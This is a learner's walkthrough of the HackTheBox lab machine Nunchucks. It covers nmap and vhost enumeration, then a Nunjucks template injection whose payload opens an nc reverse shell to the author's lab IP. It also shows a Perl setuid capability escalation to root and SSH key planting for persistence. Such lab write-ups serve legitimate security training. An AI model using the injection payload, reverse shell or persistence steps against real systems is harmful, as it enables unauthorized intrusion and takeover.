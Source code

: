 # Nunchucks

This is my write-up for the box **Nunchucks** on HackTheBox: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks).

nmap scan: `nmap -T4 -A -Pn 10.10.11.122 -oN nunchucks.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 15:24 EST
Nmap scan report for 10.10.11.122
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
```

I had a hard time connecting to the website. I then updated my **/etc/hosts** file and it worked!

![](<../../.gitbook/assets/image (328) (1) (1) (1).png>)

I then ran a `git clone` for the [Seclists](https://github.com/danielmiessler/SecLists) GitHub repository. This repo has a lot of different files which come in handy from directory/password brute-forcing. I did get stuck at this point, so I then looked at the HackTheBox walk-through from the site. I learned about the **gobuster** option of **vhosts** which checks for subdomains on the system:

`gobuster vhost -u https://nunchucks.htb/ -w directory-list-2.3-medium.txt -k`

This led me to discover a **store.nunchucks.htb**. In order to visit the site, I had to add the site to my **/etc/hosts** file. I manually edited the file using **nano**, but the walk-through had a much easier solution for this:

`echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts`

We end up on this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1) (1) (1).png>)

I then ran **feroxbuster** on the website to see if there were directories that I can access:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I didn't get that much of help from this. The walk-through mentioned that there is a template injection vulnerability on this site. I tested out the example they gave:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1) (1).png>)

The walk-through mentioned BurpSuite's Repeater function. I was then testing out what I can inject using that in order to find out what system is on the backend:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1) (1).png>)

Using the following image from [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), I was able to assume that the backend system was either **Jinja2** or **Twig**:

![](<../../.gitbook/assets/image (327) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After trying to get information from the system, I then went back to the write-up and found out that the server is using NodeJS Express. This is shown by the Response in Burp Suite:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The walk-through mentions how they found the website [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) by searching on Google. I searched on Google as well, but this website was not there in the results of a search. After this, the walk-through mentions running the following template injection (I modified it for my usage):

`{"email":"{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f')")()}}@test.com"}`

I then got a reverse netcat connection:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1) (1).png>)

I then was able to read the user.txt file in david's home directory:

![](<../../.gitbook/assets/image (333) (1) (1) (1) (1).png>)

I then ran `script /dev/null bash` on recommendation from the walk-through. This gave me the shell (with the username and hostname). I then ran `getcap -r /`, again, on recommnedation of the write-up:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The walk-through recommended using GTFObin's **perl** page.  It seemed that I was root, but was unable to read the root.txt file:

![](<../../.gitbook/assets/image (343) (1) (1) (1) (1) (1).png>)

I was unable to get **nano** (text editor) to work as I wanted it to. I then added my own key to the **authorized\_keys** file that way I was able to get back into the machine. In order to do this I did the following (recommended by the write-up):

```
Local Machine:
run ssh-keygen (I entered defaults for everything)

Then copy the output of "id_rsa.pub" which is in your .ssh folder.

Remote Machine:
echo <id_rsa.pub> > ~/.ssh/authorized_keys

You can now SSH as david onto the machine
```

I was lost at this point, since the GTFObins commands were not getting me solid results. The write-up mentioned breaking down the `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` command to a script. This was the solution from the write-up:

![](<../../.gitbook/assets/image (330) (1) (1) (1) (1) (1).png>)

Once you run `chmod +x` on the file, you can then get root access.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1) (1).png>)

You then also have access to root.txt

![](<../../.gitbook/assets/image (331) (1) (1) (1) (1).png>)

